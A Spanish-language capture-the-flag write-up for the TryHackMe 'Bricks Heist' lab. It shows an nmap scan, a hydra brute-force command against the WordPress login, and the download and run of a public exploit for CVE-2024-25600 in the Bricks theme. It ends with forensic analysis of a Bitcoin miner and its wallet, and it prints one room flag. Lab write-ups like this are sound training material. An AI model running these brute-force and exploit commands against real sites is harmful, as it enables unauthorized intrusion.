 ```yaml
---
title: "trikc"
platform: "THM"
publishedAt: 2025-05-09
cover: "/images/ctf/nota2-cover.webp"
---
```


---


# 🧱 TryHackMe – Bricks Heist | Write-up técnico


![image.png](/images/ctf/nota2-0.webp)


En este reto de TryHackMe nos enfrentamos a un escenario en el que un sitio WordPress ha sido comprometido por un actor malicioso. Nuestra misión es investigar, identificar cómo se produjo el ataque, qué malware fue desplegado, y qué grupo está detrás.


---


## 🔍 Reconocimiento inicial


Comenzamos con un escaneo completo:


```shell
bash
CopyEdit
nmap -sCV -p- 10.10.72.226
```


Se detectan los siguientes servicios:

- **22/tcp** – OpenSSH
- **80/tcp** – WebSockify (retorna error 405)
- **443/tcp** – Apache + WordPress 6.5
- **3306/tcp** – MySQL (sin autenticación)

---


## 🎯 Enumeración de WordPress


Usando `curl` y `wpscan`, identificamos que el tema activo es **Bricks**.


Al buscar vulnerabilidades conocidas, encontramos el CVE:

- **CVE-2024-25600**: vulnerabilidad crítica que permite ejecución remota de comandos desde el editor del tema Bricks.

---


## 🔓 Acceso inicial


Tras enumerar el usuario `administrator`, ejecutamos fuerza bruta con `hydra` y obtenemos acceso:


```shell
bash
CopyEdit
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


---


## 💥 Explotación del CVE


Usamos el exploit público para el CVE-2024-25600:


```shell
bash
CopyEdit
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```


Al ejecutarlo con credenciales válidas, logramos ejecutar comandos remotos y abrir una **shell interactiva**:


```shell
bash
CopyEdit
python3 CVE-2024-25600.py --url https://bricks.thm --username administrator --password ***** --cmd id
```


---


## 🐚 Post-explotación


Accedemos a `/var/www/html/` y encontramos la flag inicial:


```plain text
CopyEdit
THM{fl46_650c844110baced87e1606453b93f22a}
```


Revisamos los procesos activos y servicios del sistema, encontrando uno sospechoso:


```shell
bash
CopyEdit
ubuntu.service - TRYHACK3M
ExecStart=/lib/NetworkManager/nm-inet-dialog
```


El proceso asociado es: `nm-inet-dialog`.


---


## 📁 Análisis del miner


Identificamos el archivo de log del minero en:


```shell
bash
CopyEdit
/lib/NetworkManager/inet.conf
```


Este archivo contiene líneas como:


```plain text
css
CopyEdit
[*] Bitcoin Miner Thread Started
```


Y una clave codificada como:


```plain text
makefile
CopyEdit
ID: WW1NeGNY...
```


---


## 🔓 Decodificación de wallet


Decodificando el valor de `ID` en base64 (dos veces), obtenemos:


```plain text
nginx
CopyEdit
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```


Una dirección de Bitcoin válida (Bech32) usada para recibir ganancias del minero.


---


## 🕵️ Asociación con grupo de amenazas


Rastreando la dirección en fuentes OSINT, encontramos que ha sido usada en transacciones ligadas al grupo de ransomware **LockBit**.


---


## ✅ Conclusión


Este reto combina:

- Enumeración de WordPress
- Explotación real de CVE
- Escalada post-explotación
- Análisis forense y OSINT

**Una práctica redonda** para cualquier profesional de ciberseguridad ofensiva o defensiva.

